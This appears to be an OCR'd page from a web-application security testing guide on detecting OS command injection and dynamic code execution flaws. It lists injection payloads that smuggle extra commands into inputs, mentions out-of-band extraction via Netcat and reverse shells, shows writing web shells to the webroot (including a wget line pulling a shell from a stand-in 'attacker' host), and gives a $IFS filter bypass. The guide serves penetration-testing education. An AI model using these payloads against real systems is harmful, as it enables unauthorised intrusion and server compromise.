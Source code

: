 # Finding OS Command Injection Flaws

Web applications may issue OS commands containing any item of user-supplied input, including URL parameters, POST data, and cookies. Identifying these vulnerable functions requires comprehensive testing across the entire application surface.

---

### Understanding Shell Metacharacters

Two types of metacharacters are commonly used to inject new commands:

- **Command chaining characters**: `;`, `|`, `&`, and newline (`\n`)
  - `&&`: Run second command only if the first succeeds 
  - `||`: Run second command only if the first fails 

- **Command substitution**: Backticks (`` ` ``)
  - Executes a command inline and substitutes its output into the command string

You should not assume metacharacter behavior based on the web server’s OS, as the application might call a different interpreter on a different host.

---

### Time-Based Detection (Blind Injection)

In many cases, command output is not returned to the response. To detect injection:

**Common universal test payload:**

```
|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
```

**Submit the following payloads to all inputs (including cookies) and observe response delays:**

```
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
; ping 127.0.0.1 ;
%0a ping -i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```

> If the delay occurs, repeat with different ping durations (e.g., `5`, `10`, `15`) to ensure it’s not due to network anomalies.

---

### Extracting Command Output

1. **Try retrieving output via browser** using benign commands like:
   ```
   ls, dir
   ```

2. **If direct retrieval fails**, use one of the following:
   - **Out-of-band channels**: TFTP, Netcat, Telnet, SMTP (mail)
   - **Write to webroot**:
     ```
     dir > c:\inetpub\wwwroot\foo.txt
     ```

3. **Privilege escalation**:
   - Run `whoami` or try writing to protected locations to determine privileges.

---

### Restricted Injection Scenarios

In some cases, metacharacters are filtered, but input/output redirection (`<`, `>`) may still be usable.

**Example**:  
If `nslookup` is used with attacker-controlled input:

```
nslookup "[attacker code]" > /webroot/exploit.php
```

This error message gets written to the file:
```
** server can't find [attacker code]: NXDOMAIN
```

- The attacker places server-side script code inside the domain name, which is written into a web-accessible file and executed.

---

### Writing Arbitrary Files via CLI Options

Some commands allow writing files using flags:
- Example:
  ```
  wget http://attacker/ -O c:\inetpub\wwwroot\shell.asp
  ```

- If spaces are filtered, use Unix `$IFS` (Internal Field Separator) instead of space:
  ```
  curl$IFS-o$IFS/tmp/x
  ```

---

## HACK STEPS

1. **Target all input sources**: parameters, cookies, headers, etc.

2. **Submit time-based payloads** and monitor for response delays.

3. **If time delay occurs**, confirm with multiple values.

4. **Attempt to retrieve command output**:
   - Directly
   - Out-of-band (TFTP, reverse shell)
   - Write to webroot

5. **Use redirection characters** (`<`, `>`) where full command injection is blocked.

6. **Leverage command-line options** (e.g., `-O` for wget) to write payloads to disk.

7. **Use `$IFS`** as a substitute for space where needed.

---

## TIP

> Many platforms filter spaces. On UNIX-based systems, `$IFS` can be used as a workaround to inject whitespace in command parameters.

---

### Finding Dynamic Execution Vulnerabilities

1. **Look beyond direct commands**: Parameters may be passed to `eval`, `Execute`, etc.

2. **Try injecting known test payloads**:
   ```
   ;echo 111111
   echo 111111
   response.write 111111
   :response.write 111111
   ```

3. **Check if `111111` appears isolated** → potential code execution.

4. **Look for errors** indicating interpreted input.

5. **Test with `phpinfo()`** for PHP-based apps.

6. **Use time-based commands to verify execution**:
   ```
   system('ping 127.0.0.1')
   ```

